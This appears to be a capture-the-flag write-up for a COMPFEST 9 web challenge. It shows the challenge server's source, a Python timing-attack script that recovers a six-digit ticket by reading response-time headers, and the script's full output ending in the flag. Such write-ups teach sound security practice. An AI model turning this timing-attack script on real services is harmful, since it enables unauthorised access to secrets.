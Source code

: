 Log Me In (25)
==============

## Description
[https://cf9-jackpot-dtbznhqsyf.now.sh/](https://cf9-jackpot-dtbznhqsyf.now.sh/)

## Write up

Since we are given a [now.sh](https://now.sh/) website, we can see the source through
[/_src](https://cf9-jackpot-dtbznhqsyf.now.sh/_src) path, let's see `index.js`:

```js
const Koa = require('koa');
const route = require('koa-route');
const serve = require('koa-static');
const bodyParser = require('koa-bodyparser');
const crypto = require('crypto-promise');
const config = require('./config.json');

const app = new Koa();

async function getJackpot() {
  const decipher = crypto.decipher('aes256', process.env.SECRET);
  const jackpot = await decipher(process.env.JACKPOT, 'hex');
  // prevent bruteforce
  await new Promise(resolve => setTimeout(resolve, 1000));
  return jackpot.toString();
}

app.use(bodyParser());

app.use(async function(ctx, next) {
  const start = new Date();
  await next();
  const ms = new Date() - start;
  ctx.set('X-Response-Time', `${ms}ms`);
});

app.use(serve('client'));

app.use(
  route.post('/', async ctx => {
    const { ticket } = ctx.request.body;

    let flag = true;
    for ([index, _] of new Array(6).entries()) {
      const jackpot = await getJackpot();
      flag &= jackpot[index] === ticket[index];
      if (!flag) break;
    }

    if (flag) ctx.body = `Congratulations! The flag is ${process.env.FLAG}`;
    else ctx.body = 'Sorry, try again later!';
  })
);

const { port } = config;
app.listen(port);
console.log(`Listening on port ${port}`);
```

We can see that it checks for the ticket against the jackpot value one by one. But fetching the jackpot value
takes considerable amount of time, that is ~1s per index. We can exploit this for a timing attack:

```python
#!/usr/bin/env python
import requests

jackpot = ''

for idx in range(0, 6):

    longest = 0
    longest_num = None

    for num in range(0, 10):
        ticket = '{}{}{}'.format(jackpot, num, '0' * (5-idx))
        r = requests.post('https://cf9-jackpot-dtbznhqsyf.now.sh/', { 'ticket': ticket })
        time = int(r.headers['X-Response-Time'].split('ms')[0])
        print('[{}ms] {}'.format(time, ticket))

        if 'Sorry' not in r.text:
            print('[!] Success: {}'.format(r.text))
            exit()

        if (time > longest):
            longest = time
            longest_num = num

    jackpot += str(longest_num)

print('[!] Jackpot = {}'.format(jackpot))
```

Run:

```
❯ python 150-jackpot.py
[1000ms] 000000
[1000ms] 100000
[1003ms] 200000
[1001ms] 300000
[1001ms] 400000
[2003ms] 500000
[1003ms] 600000
[1001ms] 700000
[1001ms] 800000
[1005ms] 900000
[2002ms] 500000
[2002ms] 510000
[2002ms] 520000
[2010ms] 530000
[2003ms] 540000
[2002ms] 550000
[2003ms] 560000
[3003ms] 570000
[2002ms] 580000
[2003ms] 590000
[3004ms] 570000
[3020ms] 571000
[4007ms] 572000
[3002ms] 573000
[3013ms] 574000
[3009ms] 575000
[3009ms] 576000
[3004ms] 577000
[3005ms] 578000
[3004ms] 579000
[4015ms] 572000
[4010ms] 572100
[4004ms] 572200
[4006ms] 572300
[4003ms] 572400
[4006ms] 572500
[5007ms] 572600
[4004ms] 572700
[4005ms] 572800
[4006ms] 572900
[5007ms] 572600
[6005ms] 572610
[5005ms] 572620
[5005ms] 572630
[5006ms] 572640
[5006ms] 572650
[5007ms] 572660
[5007ms] 572670
[5006ms] 572680
[5014ms] 572690
[6019ms] 572610
[6009ms] 572611
[6007ms] 572612
[6006ms] 572613
[!] Success: Congratulations! The flag is COMPFEST9{BRUTEFORC3_ALL_THE_THINGS}
```

